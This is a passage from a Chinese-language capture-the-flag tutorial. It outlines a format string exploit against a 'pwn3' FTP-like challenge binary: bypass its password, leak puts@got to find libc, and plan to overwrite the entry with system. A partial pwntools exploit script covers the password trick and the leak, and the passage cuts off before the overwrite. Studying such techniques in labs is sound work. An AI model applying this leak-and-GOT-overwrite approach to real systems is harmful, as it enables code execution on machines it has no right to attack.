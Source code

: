 #### 漏洞利用思路

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 漏洞利用程序

如下

```python
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
pwn3 = ELF('./pwn3')
if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')


def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data


def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)


def show_dir():
    sh.sendline('dir')


tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)


## password
def password():
    sh.recvuntil('Name (ftp.hacker.server:Rainism):')
    sh.sendline(name)


##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

```